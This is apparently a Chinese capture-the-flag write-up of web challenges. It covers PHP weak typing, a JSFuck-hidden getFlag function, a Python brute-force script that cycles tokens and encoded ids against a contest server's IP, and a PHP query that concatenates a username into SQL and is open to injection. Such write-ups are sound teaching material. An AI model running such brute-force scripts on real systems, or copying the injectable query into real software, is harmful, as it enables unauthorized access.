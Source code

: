 **web**

**签到题**

直接源代码代码审计，php弱类型 然后第二关 构造

```
&lt;?php class a{ var $key; } $b = new a(); $b-&gt;key=0; $c=json_encode($b); echo $c; ?&gt;
```

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016ed6c2403c1b2fc2.png)

**抽抽奖**

没有数据传输，因此判断代码在本地。然后在JQuery.js文件里发现JSfuck，解密然后console直接输入getFlag即可

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017aac9e8b04bcf5cc.png)

**继续抽**

直接爆破，脚本如下

```
import requests
import hashlib
def encode(str):
    end = ""
    for s in str:
        if ord(s)&lt;128:
            end+="%x"%(255-(ord(s)+128))
        if ord(s)&gt;127:
            end+="%x"%(255-(ord(s)-128))
    return end
flag = []
for x in range(0,200):
    cookies = {'PHPSESSID': '3k2rd4536me3rjsojf473vctd7'}
    r = requests.get("http://117.34.111.15:81/token.php",cookies=cookies)
    m = hashlib.md5(str(x)).hexdigest()
    print x
    print "http://117.34.111.15:81/get.php?token="+r.text[1:-1]+"&amp;id="+encode(m)
    s = requests.get("http://117.34.111.15:81/get.php?token="+r.text[1:-1]+"&amp;id="+encode(m),cookies=cookies)
    flag.append(s.text)
    print s.text
print set(flag)
```

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t010c11e6f6ee80ae7a.png)

**So easy**

代码审计发现 这里没有用escape_string,因此存在注入 可是折腾了好久

```
function show($username){
  global $conn;
  $sql = "select role from `user` where username ='".$username."'";
  $res = $conn -&gt;query($sql);
  if($res-&gt;num_rows&gt;0){
  echo "$username is ".$res-&gt;fetch_assoc()['role'];
  }else{
  die("Don't have this user!");
  }
}
```
